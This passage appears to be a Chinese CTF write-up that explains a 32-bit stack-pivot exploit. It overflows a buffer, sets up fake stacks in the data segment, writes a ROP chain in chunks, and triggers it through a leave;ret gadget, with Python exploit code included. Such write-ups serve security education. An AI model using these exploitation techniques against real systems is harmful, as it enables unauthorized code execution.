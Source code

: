 由于要不断调用read且不能使用rop，所以后面我们一直把ret改成main。

这里我们伪造两个栈区，dataA(fake stack) = 0x0804A000 + 0x200 , dataB(fake stack) = 0x0804A000 + 0x400

一开始，我们的栈是这样的：

![](read_write_f52af45f237fb13bbc9ff6ae98e456be.png)

然后我们通过栈溢出把ebp改成了dataA,ret改到main，再次输入的时候，我们把之前的‘a'*0x28的padding改成我们打算执行的ROP代码。
（后面的leave是 mov esp,ebp ; pop ebp）

![](read_write_c454ca10d50fe6de5479708f076c3086.png)

下面的ebp我们填成dataB,ret以后变成这样：
（后面的leave是 mov esp,ebp ; pop ebp）

![](read_write_043af3e9c72f9e020e63f4ebb0e9543f.png)

由于代码中push和pop操作，且esp在dataA区域，所以ROP（part1）后面的部分代码会被破坏（x64没有这种情况），在dataB中填入'A'*0x28的padding，ebp改到dataA的后面准备继续修补ROP。

![](read_write_bc511cc3a4f1cc0f6271fe84ae7edc3a.png)


![](read_write_c6cd16719f98f4584d3a1da0cde4a015.png)


经过gdb调试，一个part的大小为0xC，通过分段多次写入，最后在dataA就保存了我们需要的ROP。

```python 
#overflow_length = 0x28

def write(addr,data):
	pay = 'a'*0x28 + p32(addr + 0x28) + p32(code_read)
	cn.send(pay)
	cn.recv()
	pay = data.ljust(0x28,'\xff') + p32(0x0804A000 + 0x400) + p32(code_read)
	cn.send(pay)
	cn.recv()

def writeall(addr,data):
	n = len(data)//0xc
	for i in range(n):
		write(addr +i*0xc,data[i*0xc:(i+1)*0xc])
	i += 1
	write(addr+i*0xc,data[i*0xc:])
```

接着只要把ret改到dataA的rop前的4字节，然后把ret改到leave；ret就可以调用我们的ROP了。

```python
leave_ret = 0x08048468

cn.send('a'*0x28 + p32(0x0804A000 + 0x200 -4) + p32(leave_ret))
```
